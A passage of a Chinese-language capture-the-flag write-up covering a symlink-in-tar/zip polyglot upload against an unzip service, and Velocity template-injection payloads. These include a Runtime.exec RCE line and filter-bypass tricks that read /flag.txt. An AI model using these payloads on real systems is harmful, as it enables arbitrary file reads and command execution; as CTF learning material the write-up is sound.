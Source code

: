 先用 `is_zipfile` 檢查是不是 zip，然後用 patool 的 extract_archive 去解壓縮檔案。從檔名看來就一副跟 symlink 有關的樣子，比賽中我有試過用 zip 去打包 symlink 檔案但是沒用，這題後來是隊友解掉的。

從 [discord](https://discord.com/channels/656258740252704788/978312189159030805/985625416356229160) 裡面看到別人 po 的解答：

```
ln -fs ../../../flag.txt .
touch a
zip a.zip -xi a
tar --owner 0 --group 0 -cvf payload.tar flag.txt a.zip

curl -v ${1:-symple-unzipper.web.jctf.pro}/extract -F 'file=@payload.tar'
```

看了一下其他人在 discord 裡面的討論，大意是說上面這樣做以後，檔案開頭是 tar 的格式，結尾是你包進去的那個 zip，而 `is_zipfile` 的實作會導致這樣的檔案可以通過（似乎是先檢查 magic byte，找不到會用其他方式判定），因此被判定為是 true，接著就會被底下的 `extract_archive` 把 tar 解開，然後保留你的 symlink。

## Velociraptor(22 solves)

這題是 Velocity 的 SSTI，上網找會找到這個 RCE payload：

``` java
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("touch /tmp/rai4over")
```

但是這題因為把這鎖住了所以不能用，flag 在根目錄底下，所以其實不需要 RCE，只要能讀檔就行了，Velocity 有個 include 的指令：

```
#include( "/flag.txt" )
```

但直接用會丟一個錯誤給你：

> Malicious input detected (#include, #parse)

要想辦法繞，我在 discord 裡面看到有人這樣繞：

```
#set($x="#includ")
#set($y='e("/flag.txt")')
#set($a="$x$y")

#evaluate($a)
```

然後也有人用 unicode 來繞：

```
#set($x="#includ\u0065('/flag.txt')")
$x
```

## GoBucket(18 solves)

這題的核心程式碼如下：
